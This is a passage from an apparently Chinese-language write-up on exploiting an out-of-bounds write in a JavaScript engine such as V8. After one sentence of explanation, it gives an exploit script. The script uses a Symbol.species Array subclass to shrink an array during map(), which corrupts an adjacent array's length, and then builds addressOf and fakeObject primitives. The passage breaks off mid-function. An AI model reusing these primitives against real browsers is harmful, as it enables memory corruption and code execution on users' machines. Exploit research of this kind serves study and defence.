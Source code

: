 #### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

既然能越界写，那么我们就越界覆盖后方Array对象的length，进而构造一个oob的arr，然后利用手法就和前面一样了。<br>
exp

```
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function u64_l(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getUint32(0,true);
`}`

function u64_h(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getUint32(4,true);
`}`


var obj = `{``}`;
var oob_double_arr;
var obj_arr;
var arb_buf;

class Array1 extends Array `{`
  constructor(len) `{`
      super(1); //将数组长度缩减为1
      oob_double_arr = [1.1,2.2];
      obj_arr = [obj];
      arb_buf = new ArrayBuffer(0x10);
    `}`
`}`;

class MyArray extends Array `{`
  static get [Symbol.species]() `{`
      return Array1;
    `}`
`}`

a = new MyArray();

//第8个位置将会写入数据
a[8] = 0x1;
//OOB
var b = a.map(function(x) `{` return 1000; `}`);

var array_buffer_map = oob_double_arr[0xe];

function addressOf(obj) `{`
   obj_arr[0] = obj;
   var addr = oob_double_arr[0xd];
   return addr;
`}`

function fakeObject(addr_h,addr_l) `{`
   oob_double_arr[0xd] = p64f(addr_l,addr_h);
```